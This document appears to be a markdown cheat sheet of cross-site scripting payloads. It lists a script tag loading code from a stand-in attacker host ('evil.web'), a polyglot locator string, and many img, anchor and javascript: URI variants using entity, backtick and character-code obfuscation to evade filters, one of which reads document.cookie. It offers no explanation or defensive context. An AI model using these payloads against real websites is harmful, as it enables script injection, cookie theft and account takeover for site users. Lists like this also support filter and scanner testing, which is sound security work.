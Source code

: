#### standard JS injection

```<script src="http://evil.web/xss.js></script>```

-----


#### XSS locator

```";!--"<XSS>=&{{}}```

```javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>```

-----


#### image XSS

```<img src="javascript:alert('XSS');">```

-----


#### no quotes no semicolon

```<img src=javascript:alert('XSS')>```

-----


#### HTML entities

```<img src=javascript:alert(&quot;XSS&quot;)>```

-----


#### grave obfuscation

```<img src=`javascript:alert("test, 'XSS'")`>

-----


#### malformed A tag

```\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>```

-----


#### malformed IMG tag

```<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>```

-----


#### char encoded

```<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>```

-----


#### mouseover

```<IMG SRC=# onmouseover="alert('xxs')">```

-----


#### empty SRC

```<IMG SRC= onmouseover="alert('xxs')">```

-----


